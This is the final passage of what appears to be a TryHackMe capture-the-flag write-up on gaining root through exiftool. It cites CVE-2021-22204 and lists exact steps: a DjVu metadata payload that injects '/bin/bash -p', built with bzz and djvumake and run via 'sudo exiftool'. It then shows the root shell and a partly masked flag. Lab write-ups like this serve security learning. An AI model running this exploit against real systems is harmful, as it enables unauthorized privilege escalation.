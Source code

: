 We could refer [**GTFOBINS**](https://gtfobins.github.io/gtfobins/exiftool/#sudo) for sudo entry on exiftool binary to escalate our privileges to root !

## Exiftool CVE

But for the sake of this room, we use a vulnerability on exiftool to escalate our privileges to root.
Googling for exiftool cve show us this - `CVE-2021-22204` 

>You could read more about this CVE here -https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/
>
>Link to exploit on github - https://github.com/convisoappsec/CVE-2021-22204-exiftool

Steps to escalate -

```
1. Create a file named payload with contents - (metadata "\c${system('/bin/bash -p')};")
2. bzz payload payload.bzz
3. djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
4. sudo exiftool exploit.djvu
```
## root.txt 🚩

Now we get have a root shell ! Grab `root.txt` 

```bash
root@ubuntu:~# whoami

root

root@ubuntu:~# cat  /root/root.txt

thm{bf52a85b**********0d4d5ada}
```